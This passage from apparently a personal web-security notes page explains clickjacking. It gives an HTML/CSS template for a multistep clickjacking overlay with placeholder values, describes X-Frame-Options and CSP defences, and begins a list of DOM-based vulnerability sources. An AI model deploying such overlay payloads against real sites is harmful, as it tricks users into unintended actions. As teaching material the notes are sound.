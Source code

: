 	2. Send the link to the victime and pray
	
- Multistep clickjacking

Just include as much button as you need

```html
	<style>  
	 iframe {  
	 position:relative;  
	 width:$width\_value;  
	 height: $height\_value;  
	 opacity: $opacity;  
	 z-index: 2;  
	 }  
	 .firstClick, .secondClick {  
	 position:absolute;  
	 top:$top\_value1;  
	 left:$side\_value1;  
	 z-index: 1;  
	 }  
	 .secondClick {  
	 top:$top\_value2;  
	 left:$side\_value2;  
	 }  
	</style>  
	<div class="firstClick">Test me first</div>  
	<div class="secondClick">Test me next</div>  
	<iframe src="$url"></iframe>
```



#### How to prevent them 

Two main option are in use to prevend them: 

-	 X-frame-options: 
	-	 deny : Make the site impossible to include into ifram balise
	-	 sameorigin: Make ifram only useable on the same website
	-	 allow-from: Specify URL that can include the website iframe 

-	CSP: You can use a lot of CSP option to restrict page inclusion




## DOM-based vulnerabilities

DOM-based vulnerabilities are based on javascript values controlled by attackers *called source* and use it in dangerous functions *called sink* (values can be cookies or whatever and functions can be eval like ones so by modifying the cookie you've got RCE).

Sources are very often :
- document.URL  
- document.documentURI  
- document.URLUnencoded  
- document.baseURI  
- location  
- document.cookie  
- document.referrer  
- window.name  
- history.pushState  
- history.replaceState  
- localStorage  
- sessionStorage  
- IndexedDB (mozIndexedDB, webkitIndexedDB, msIndexedDB)  
- Database
